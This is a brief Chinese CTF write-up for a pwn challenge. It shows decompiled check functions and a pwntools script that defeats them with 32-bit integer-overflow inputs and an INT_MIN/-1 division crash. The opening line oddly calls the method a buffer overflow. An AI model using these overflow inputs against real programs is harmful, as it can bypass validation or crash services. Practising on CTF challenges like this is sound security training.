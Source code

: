 思路：利用s缓冲区溢出修改返回值

```c
_BOOL8 sub_AEE()
{
  int v1; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("2.a*b=9,a>9,b>9");
  printf("a:");
  __isoc99_scanf("%d", &v1);
  printf("b:");
  __isoc99_scanf("%d", &v2);
  return v1 > 9 && v2 > 9 && v1 * v2 == 9;
}
```



+ v1 > 9
+ v2 > 9 
+ v1 * v2 == 9;

4294967305 = 9, 48145*89209=4294967305 

(4294967305 %2147483648 = 9)

tools.jb51.net/jisuanqi/factor_calc

```c
__int64 sub_BA3()
{
  int v1; // [rsp+Ch] [rbp-14h] BYREF
  int v2[2]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("3.a/b=ERROR,b!=0");
  printf("a:");
  __isoc99_scanf("%d", &v1);
  printf("b:");
  __isoc99_scanf("%d", v2);
  if ( v2[0] )
  {
    signal(8, handler);
    v2[1] = v1 / v2[0];
    signal(8, 0LL);
  }
  return 0LL;
}
```



```python
    from pwn import * 
    p = process('pwn2')
    #p = remote('pwn.challenge.ctf.show',28191)
    	
    p.sendlineafter("a:",'4')
    p.sendlineafter("b:",'4294967299')
    	
    p.sendlineafter("a:",'48145')
    p.sendlineafter("b:",'89209')
    	
    p.sendlineafter("a:",'-2147483648')
    p.sendlineafter("b:",'-1')
```